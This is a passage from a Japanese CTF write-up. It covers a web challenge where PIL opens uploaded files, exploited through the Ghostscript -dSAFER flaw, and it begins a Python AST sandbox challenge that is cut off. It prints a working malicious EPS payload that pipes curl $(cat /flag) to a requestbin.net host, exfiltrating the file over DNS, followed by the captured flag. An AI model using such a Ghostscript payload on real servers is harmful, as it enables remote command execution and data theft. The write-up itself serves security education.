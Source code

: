 一見脆弱性はなさそうですが、`img = Image.open(fname)` と PIL を使ってユーザによって与えられたファイルを開いています。ここから思い出されるのは [Ghostscript の -dSAFER オプションの脆弱性に関する注意喚起](https://www.jpcert.or.jp/at/2018/at180035.html)で紹介されている脆弱性です。

[1640 - ghostscript: multiple critical vulnerabilities, including remote command execution - project-zero - Monorail](https://bugs.chromium.org/p/project-zero/issues/detail?id=1640) にあるものをいじってアップロードしてみましょう。

```
%!PS-Adobe-3.0 EPSF-3.0
%%Creator: Harekaze
%%BoundingBox: 0 0 128 128
%%Pages: 1
%%EndComments
%%Page: 1 1

/Times-Roman findfont
14 scalefont
setfont

a0
currentpagedevice /HWResolution get 0 (foobar) put
{ grestore } stopped {} if
mark /OutputFile (%pipe%curl $(cat /flag).5f90ba6d6fd2b244cac4.d.requestbin.net) currentdevice putdeviceprops

showpage
```

アップロードすると `TWCTFwatch_0ut_gh0stscr1pt_everywhere.5f90ba6d6fd2b244cac4.d.requestbin.net` の名前解決がされたことを確認できました。

```
TWCTF{watch_0ut_gh0stscr1pt_everywhere}
```

## pysandbox
### [Misc 121] (FLAG 1)

以下のようなソースコードが与えられました。

```python
import sys
import ast


blacklist = [ast.Call, ast.Attribute]

def check(node):
    if isinstance(node, list):
        return all([check(n) for n in node])
    else:
        """
	expr = BoolOp(boolop op, expr* values)
	     | BinOp(expr left, operator op, expr right)
	     | UnaryOp(unaryop op, expr operand)
	     | Lambda(arguments args, expr body)
	     | IfExp(expr test, expr body, expr orelse)
	     | Dict(expr* keys, expr* values)
	     | Set(expr* elts)
	     | ListComp(expr elt, comprehension* generators)
	     | SetComp(expr elt, comprehension* generators)
	     | DictComp(expr key, expr value, comprehension* generators)
	     | GeneratorExp(expr elt, comprehension* generators)
	     -- the grammar constrains where yield expressions can occur
	     | Yield(expr? value)
	     -- need sequences for compare to distinguish between
```
